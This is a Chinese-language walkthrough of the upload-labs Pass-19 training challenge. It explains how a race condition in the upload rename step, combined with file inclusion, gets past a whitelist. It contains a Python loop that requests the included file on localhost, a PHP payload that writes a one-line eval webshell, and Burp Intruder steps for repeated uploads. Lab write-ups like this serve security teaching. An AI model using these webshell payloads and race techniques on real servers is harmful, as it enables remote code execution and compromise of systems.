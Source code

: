 ```
      $ret = $this-&gt;renameFile();
      if( $ret != 1 ){
        return $this-&gt;resultUpload( $ret );    
      }
    }
    
    // if we are here, everything worked as planned :)

    return $this-&gt;resultUpload( "SUCCESS" );
  
  }
......
......
...... 
};
```

此关和前一关非常类似，但是Pass-19进行了一个文件名过滤，因此php后缀文件就无法上传了，只能上传图片马，然后结合“文件包含漏洞”进行绕过。

上传文件后，进行白名单检测，移动文件，然后进行重命名。

将文件上传后，对文件重新命名时，同样存在条件竞争的漏洞。可以利用&lt;Pass-18&gt;类似方法进行绕过，但是此时访问的地址就是文件包含的那个地址了。

操作流程：

```
Python脚本（可用可不用，可以手动进行）：
import requests
url = "http://127.0.0.1/upload-labs/include.php?file=upload/pass19.png"
while True:
    html = requests.get(url)
    if ( 'Warning'  not in  str(html.text)):
        print('ok')
        break
```

```
2.php内容：
&lt;?php phpinfo();?&gt;

补充：
&lt;?php fputs(fopen('Muma.php','w'),'&lt;?php @eval($_POST["Muma"])?&gt;');?&gt;
```

此关文件上传的路径与前面挂卡的路径不一样，在网站的根目录，为了更加方便，将文件路径仍然改到“upload”下。

上传一句话木马文件后使用BURP抓包，右键数据包后，点击“Send to Intruder”发送至“Intruder”（或者使用键盘的Ctrl+I键）。

点击“Intruder”后点击“Positions”，然后点击“Clear”。

点击“Payloads”后，设置“Payload type”为“Null payloads”，设置“Payload Options”为“Continue indefinitely”。

进行完上面设置后，点击“Start attack”来开始不断上传该文件。

然后可以选择运行脚本来不断访问该文件，也可以打开另一个浏览器输入文件路径后手动对文件进行访问。

这里展示手动访问，不断刷新网页后到某一时刻可以成功得到一句话木马执行后返回的页面，上半部分是图片内容，下半部分是一句话木马执行后返回的内容。
